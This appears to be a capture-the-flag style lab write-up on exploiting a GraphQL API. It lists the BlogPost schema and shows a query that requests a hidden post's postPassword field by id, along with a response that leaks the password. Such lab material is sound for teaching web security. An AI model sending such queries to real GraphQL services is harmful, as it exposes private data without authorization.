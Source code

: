 ```
```
### Lab: Accessing private GraphQL posts

The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password.

http://nathanrandal.com/graphql-visualizer/

**BlogPost Type**

| **Field**       | **Type**            |
|-----------------|---------------------|
| `id`            | `Int!`              |
| `image`         | `String!`           |
| `title`         | `String!`           |
| `author`        | `String!`           |
| `date`          | `Timestamp!`        |
| `summary`       | `String!`           |
| `paragraphs`    | `[String!]!`        |
| `isPrivate`     | `Boolean!`          |
| `postPassword`  | `String`            |

---

**Queries**

| **Query**               | **Return Type**       |
|-------------------------|-----------------------|
| `getBlogPost(id: Int!)` | `BlogPost`            |
| `getAllBlogPosts`       | `[BlogPost!]!`        |

```
{
    "query":"query getBlogPost($id: Int!) 
    {
        getBlogPost(id: $id) 
        {
            id
            postPassword
        }
    }
    ","
    variables":
    {
        "id":3
    }
}
```
```
{
  "data": {
    "getBlogPost": {
      "id": 3,
      "postPassword": "p3v40vqhruz53wtw9wxsydrfrcvg0m6l"
    }
  }
}
```
